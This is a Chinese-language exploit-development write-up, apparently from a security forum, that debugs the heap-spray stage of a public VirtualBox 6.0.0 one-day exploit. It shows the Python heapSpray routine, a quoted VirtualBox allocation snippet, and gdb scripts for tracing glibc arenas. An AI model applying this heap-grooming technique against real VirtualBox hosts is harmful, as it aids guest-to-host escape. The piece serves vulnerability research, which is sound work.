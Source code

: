 ```c
https://github.com/hac425xxx/VirtualBox-6.0.0-Exploit-1-day/tree/dd3d3403f24278393667b902c34f5c0b302c9400
```

poc 执行完 heapSpray 中的下面代码后，理论上后面申请的 pBuf 和 pBuf-&gt;pData应该都是连续的.

```python
def heapSpray(client):
    buf_ids = []
    spray_ids = []
    msg = nop_msg()
    # make CRVBOXSVCBUFFER_t & pData heapSpray area

    for i in range(1, 200):
        print("alloc {}.".format(i * 0x10))
        for j in range(180):
            alloc_buf(client, 0x10 + 0x10 * i, msg)

    for i in range(2000):
        alloc_buf(client, 0x20, msg)

    fengshui_buf_ids = []
    for i in range(1000):
       fengshui_buf_ids.append(alloc_buf(client, 0x20, msg))

    for i in range(4000):
        alloc_buf(client, 0x20, msg)

    raw_input("clean heap done.")
```

但执行完后，通过 [gdb 脚本](https://github.com/hac425xxx/VirtualBox-6.0.0-Exploit-1-day/blob/master/gdb/iter_g_pCRVBoxSVCBuffers.py#L77) 打印 VirtualBox 里面的所有的 pBuf 和 pData 的结果如下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-4babbcddc10262b48c52c1b64675b180fea4711e.png)

输出中 `/`​ 前面是内存地址，后面是该内存地址所处的 arena，可以发现 pBuf 和 pBuf-&gt;pData 在两个 arena 中分配，且 pBuf 和 pBuf-&gt;pData 都是按照 0x30 递增的.

而 pBuf 和 pBuf-&gt;pData 的分配是顺序的

```c
        pBuffer = (CRVBOXSVCBUFFER_t*) RTMemAlloc(sizeof(CRVBOXSVCBUFFER_t));
        if (pBuffer)
        {
            pBuffer->pData = RTMemAlloc(cbBufferSize);
```

第一想法就是两次分配之间使用了不同的 arena，但是给两次分配的位置处下断点，打印当前的 thread\_arena

```bash
break *(svcGetBuffer+179)
  commands
    printf "svcGetBuffer before 1'st alloc, thread_arena: 0x%lx, mutex: 0x%lx\n", *(unsigned long*)($fs_base-112), *(unsigned int*)(*(unsigned long*)($fs_base-112))
    c
  end

break *(svcGetBuffer+206)
  commands
    printf "svcGetBuffer before 2'st alloc, thread_arena:  0x%lx, mutex: 0x%lx\n", *(unsigned long*)($fs_base-112), *(unsigned int*)(*(unsigned long*)($fs_base-112))
    c
  end
```
